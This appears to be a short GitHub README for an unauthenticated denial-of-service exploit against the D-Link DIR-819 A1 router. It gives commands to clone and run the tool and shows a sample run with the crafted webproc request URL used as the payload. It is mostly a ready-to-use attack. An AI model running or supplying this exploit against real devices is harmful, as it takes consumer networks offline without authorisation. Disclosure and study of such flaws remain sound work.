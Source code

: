 # Unauthenticated Denial of Service in DLink consumer DIR 819 A1 router 


## Exploit 

### Fetch the sources
```bash
$ git clone https://github.com/whokilleddb/dlink-dir-819-dos
$ cd dlink-dir-819-dos
$ pip install -r requirements.txt
```

### Run the exploit
```bash
$ ./exploit.py -i 192.168.0.1                         
[+] DLink DIR-819 DoS exploit
[i] Address to attack: 192.168.0.1
[i] Using SSL:         False
[i] Request Timeout:   30s
[i] Buffer Length:     19
[i] Payload:           http://192.168.0.1/cgi-bin/webproc?getpage=html/index.html&errorpage=html/error.html&var:language=en_us&var:menu=basic&var:page=Bas_wansum&var:sys_Token=6307226200704307522
[+] Exploit Successful!
``` 